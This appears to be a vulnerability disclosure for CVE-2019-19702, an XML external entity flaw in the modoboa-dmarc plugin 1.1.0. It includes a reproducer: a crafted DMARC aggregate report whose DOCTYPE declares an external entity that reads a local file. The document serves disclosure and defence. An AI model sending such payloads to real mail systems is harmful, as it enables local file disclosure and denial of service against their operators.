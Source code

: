 # CVE-2019-19702: XXE injection in Modoboa DMARC plugin

The modoboa-dmarc plugin 1.1.0 for Modoboa [1] is vulnerable to an XML External Entity Injection (XXE) attack when processing XML data. A remote attacker could exploit this to perform a denial of service against the DMARC reporting functionality, such as by referencing the `/dev/random` file within XML documents that are emailed to the address in the rua field of the DMARC records of a domain [2].

## Reproducer
1. Use the following XML file containing a malicious DMARC aggregate report:

```
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file://etc/hostname" >
]
>

<feedback>
  <report_metadata>
    <org_name>ngyn</org_name>
    <email>abuse@163.com</email>
    <report_id>&xxe;</report_id>
    <date_range>
      <begin>1436054400</begin>
      <end>1436140799</end>
    </date_range>
  </report_metadata>
  <policy_published>
    <domain>ngyn.org</domain>
    <adkim>s</adkim>
    <aspf>s</aspf>
    <p>none</p>
    <sp>none</sp>
    <pct>5</pct>
  </policy_published>
  <record>
    <row>
      <source_ip>115.202.65.235</source_ip>
      <count>1</count>
      <policy_evaluated>
        <disposition>none</disposition>
        <dkim>fail</dkim>
        <spf>fail</spf>
      </policy_evaluated>
    </row>
    <identifiers>
      <header_from>u.ngyn.org</header_from>
    </identifiers>
    <auth_results>
      <spf>
        <domain>u.ngyn.org</domain>
        <result>none</result>
      </spf>
    </auth_results>
  </record>
</feedback>
```
